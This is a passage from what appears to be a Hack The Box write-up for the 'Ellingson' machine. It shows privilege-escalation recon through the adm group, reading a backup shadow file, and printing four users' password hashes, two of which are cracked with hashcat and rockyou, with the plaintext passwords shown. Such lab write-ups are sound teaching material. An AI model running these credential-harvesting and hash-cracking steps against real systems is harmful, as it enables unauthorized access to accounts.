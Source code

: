 <p>And with that we now have proper shell access.</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/hal-ssh.PNG' | relative_url }}">
</p>

<h1>User exploitation</h1>

<p>Since hal wasn't the true "user" in this case we know we still need to pivot to one of the remaining users. As as first step let's get some recon scripts over to the host.</p>

{% highlight shell %}
root@kali:../tools# scp LinEnum.sh hal@10.10.10.139:/home/hal/
LinEnum.sh                       100%   45KB 513.4KB/s   00:00    
{% endhighlight %}

<p>Unfortunately nothing really pops out as a result of running it so back to the drawing board. After scratching my head for a bit I realized something that was right in my face from the initial shell access.</p>

{% highlight shell %}
hal@ellingson:~$ id
uid=1001(hal) gid=1001(hal) groups=1001(hal),4(adm)
{% endhighlight %}

<p>That's right, hal is also part of the adm group. Now what does that give us as far as information.</p>

{% highlight shell %}
hal@ellingson:~$ find / -group adm 2> /dev/null | head -n1
/var/backups/shadow.bak
hal@ellingson:~$ cat /var/backups/shadow.bak | tail -n 4
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
{% endhighlight %}

<p>Just like that looks like we have the password hashes for the four users! Time to format a file and see if we can crack this with <code>hashcat</code>.</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/hashcat.PNG' | relative_url }}">
</p>

<p>Kicking off <code>hashcat</code> using <code>-m 1800</code> and the trusty old rockyou wordlist we manage to crack two of the hashes - for <code>theplague</code> and for <code>margo</code>.</p>

{% highlight shell %}
hashcat-5.1.0>./hashcat64.exe -m 1800 -a 0 ..\hashes.txt ..\rockyou.txt
...
$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:password123
$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:iamgod$08
{% endhighlight %}
